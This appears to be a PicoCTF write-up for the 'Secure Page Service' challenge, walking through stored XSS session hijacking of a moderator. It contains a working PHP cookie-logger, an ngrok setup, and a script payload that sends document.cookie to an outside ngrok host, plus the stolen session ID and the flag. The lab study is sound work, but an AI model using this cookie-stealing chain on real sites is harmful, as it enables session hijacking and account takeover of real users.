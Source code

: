 ## Secure Page Service

This challenge comes from PicoCTF. We have access to a very simple website with login features that allows users to post comments.

Our goal is to view the page with the id ```43440b22864b30a0098f034eaf940730ca211a55``` which is password locked. Only the site moderator could see this post, so we are to somehow disguise ourselves as the site moderator.
The way we can "pretend" as the site moderator is to hijack their session. Http is a stateless protocol, and the way server identifies individual users is by their cookies. 
If we could steal the moderator's cookie, we can login as the moderator without knowing their password and view the flag. 

In this challenge, we can perform session hijacking with XSS (Cross Site Scripting). When the user input that is directly presented on the webpage (the typical example is online forums) and does not get sanitized, 
it is possible to embed scripts which can be executed upon an access to the webpage (or a click on the link).

The easiest way to check if XSS is possible is by embedding ```<script>alert()</script>```. When we access the page and if the alert pop-up shows up, then
it means the javascript code was successfully executed.

XSS requires the target/victim to access the page or click on the link, which is often the most difficult aspect of XSS. Luckily for this challenge, we can "report" our comment to the moderator: this guarantees that the moderator will view our comment!

So now it all comes down to the code we embed, as well as how to collect the cookie. There are many ways to do this, but one common thing is that we have to set up our own webpage to which we redirect the victim. I chose to set up the webpage using XAMPP with the help of ngrok.
Firstly, set up a webpage named ```cookieCatcher.php```, whose code is shown below
```
<?php
  $cookie = $_GET['cookie'];
  $ip = $_SERVER['REMOTE_ADDR'];
  $date = date('l jS \of F Y h:i:s A');
  $referer = $_SERVER['HTTP_REFERER'];
  $fp = fopen('cookies.html', 'a');
  fwrite($fp, 'Cookie: '.$cookie.'<br> IP: ' .$ip. '<br> Date and Time: ' .$date. '<br> Website: '.$referer.'<br><br><br>');
  fclose($fp);
  header ("javascript:history.back()");
?>
```
Basically, this acquires the victim's cookie (and REMOTE_ADD), and then outputs it to a file named ```cookies.html``` in the same directory. The output file can be a text file too. Put this PHP file in the ```htdocs``` folder. In order for a third party to access this page, we use ```ngrok```. This is a command line tool that creates a temoporary URL with which a third party can access our ```localhost```. 
Start up Apache in XAMPP, and in the command line, type in ```ngrok.exe http 80```. This will output something like
```
Session Status                online
Version                       2.1.18
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://11465a2b.ngrok.io -> localhost:80
Forwarding                    https://11465a2b.ngrok.io -> localhost:80

Connections                   ttl     opn     rt1     rt5     p50     p90
                              0       0       0.00    0.00    0.00    0.00
```
We are using GET method, so the code that we want to embed is something like ```<script> location.href=("https://11465a2b.ngrok.io/cookieCatcher.php?cookie="document.cookie)</script>. Note that ```document.cookie``` is outside the quotation. This redirects the user to ```cookieCatcher.php``` where we collect their cookie.
Fill out the comment and click on "create". To prevent the script from executing, add a password to this post. Now click on "report to the moderator" button, and check ```cookies.html```.

```
Cookie: PHPSESSID=tc5n2bs46n32oh6u95lqfuftr3
IP: ::1
Date and Time: Sunday 1st of January 2017 05:55:06 AM
Website: http://sps.picoctf.com/view_page.php?page_id=eeff5ac550044e7f3ac738ffb3eb0c0cfb5b9500
```
We see that ```PHPSESSID = tc5n2bs46n32oh6u95lqfuftr3```. This is the session ID of the moderator: note that this is not static, so it will be different every time. Using ```CookieEditor```, a Firefox extension, we can edit our cookie to this value.
Finally, enter the post id ```43440b22864b30a0098f034eaf940730ca211a55```. Without password, we are able to view the page, and it gives out the flag as a javascript alert. The flag is ```wow_cross_site_scripting_is_such_web```




